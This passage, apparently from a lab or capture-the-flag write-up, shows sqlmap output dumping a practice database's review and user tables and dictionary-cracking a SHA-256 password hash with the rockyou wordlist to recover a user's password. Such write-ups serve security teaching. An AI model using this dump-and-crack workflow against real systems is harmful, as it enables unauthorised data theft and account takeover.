 ~~~
| 5    | Call of Duty: Modern Warfare 2 | When you look at the total package, Call of Duty: Modern Warfare 2 is hands-down one of the best first-person shooters out there, and a truly amazing offering across any system.                      |
| 2    | Marvel Ultimate Alliance 3     | Switch owners will find plenty of content to chew through, particularly with friends, and while it may be the gaming equivalent to a Hulk Smash, that isnt to say that it isnt a rollicking good time. |
| 3    | SWBF2 2005                     | Best game ever                                                                                                                                                                                         |
| 4    | Hitman 2                       | Hitman 2 doesnt add much of note to the structure of its predecessor and thus feels more like Hitman 1.5 than a full-blown sequel. But thats not a bad thing.                                          |
+------+--------------------------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+

[18:22:02] [INFO] table '`db`.post' dumped to CSV file '/home/unknown/.local/share/sqlmap/output/10.10.60.68/dump/db/post.csv'
[18:22:02] [INFO] fetching columns for table 'users' in database 'db'
[18:22:02] [INFO] fetching entries for table 'users' in database 'db'
[18:22:02] [INFO] recognized possible password hashes in column 'pwd'
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] y
[18:22:18] [INFO] writing hashes to a temporary file '/tmp/sqlmap2g687_oi31953/sqlmaphashes-1al4sxhr.txt' 
do you want to crack them via a dictionary-based attack? [Y/n/q] 
[18:22:37] [INFO] using hash method 'sha256_generic_passwd'
what dictionary do you want to use?
[1] default dictionary file '/data/src/sqlmap-dev/data/txt/wordlist.tx_' (press Enter)
[2] custom dictionary file
[3] file with list of dictionary files
> 2
what's the custom dictionary's location?
/data/src/wordlists/rockyou.txt
[18:23:21] [INFO] using custom dictionary
do you want to use common password suffixes? (slow!) [y/N] 
[18:23:31] [INFO] starting dictionary-based cracking (sha256_generic_passwd)
[18:23:31] [INFO] starting 8 processes 
[18:23:42] [INFO] cracked password 'videogamer124' for user 'agent47'                                                
Database: db                                                                                                         
Table: users
[1 entry]
+----------------------------------------------------------------------------------+----------+
| pwd                                                                              | username |
+----------------------------------------------------------------------------------+----------+
| ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14 (videogamer124) | agent47  |
+----------------------------------------------------------------------------------+----------+

[18:24:26] [INFO] table '`db`.users' dumped to CSV file '/home/unknown/.local/share/sqlmap/output/10.10.60.68/dump/db/users.csv'
[18:24:26] [INFO] fetched data logged to text files under '/home/unknown/.local/share/sqlmap/output/10.10.60.68'

[*] ending @ 18:24:26 /2020-06-08/
~~~
